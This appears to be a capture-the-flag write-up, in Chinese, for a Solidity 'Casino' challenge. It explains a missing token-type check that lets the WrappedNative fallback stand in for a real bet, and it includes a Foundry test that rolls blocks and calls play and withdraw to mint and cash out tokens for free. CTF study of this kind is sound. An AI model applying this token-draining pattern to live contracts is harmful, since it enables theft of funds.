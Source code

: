 漏洞点在 `Casino` 的 `_bet` 函数没有对 `token` 的类型进行校验，对 `WrappedNative` 合约调用 `bet` 函数并不会 revert，而是可以进入 `fallback` 正常执行，因此并不会被 catch 捕获。从而在 `play` 时不需要真的消耗代币就可以 `get` 获得 CToken，再调用 `withdraw` 换成 token 提出。最后枚举一个能获得代币的块即可。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {IERC20} from "openzeppelin-contracts/contracts/token/ERC20/extensions/ERC20Wrapper.sol";
import {Test} from "forge-std/Test.sol";
import {CasinoBase, Casino} from "src/Casino/Casino.sol";

contract CasinoTest is Test {
    CasinoBase public base;
    Casino public casino;
    address public wNative;
    address public you;
    address public owner;

    function setUp() external {
        uint256 startTime = block.timestamp + 60;
        uint256 endTime = startTime + 60;
        uint256 fullScore = 100;

        base = new CasinoBase(startTime, endTime, fullScore);
        you = makeAddr("you");
        wNative = address(base.wNative());
        base.setup();
        casino = base.casino();
    }

    function testExploit() public {
        uint256 blockNum = block.number + 1;
        vm.startPrank(you);

        while (casino.slot() == 0) {
            vm.roll(blockNum++);
        }

        casino.play(wNative, 1_000e18);
        casino.withdraw(wNative, 1_000e18);

        base.solve();
        assertTrue(base.isSolved());
        vm.stopPrank();
    }
}
```

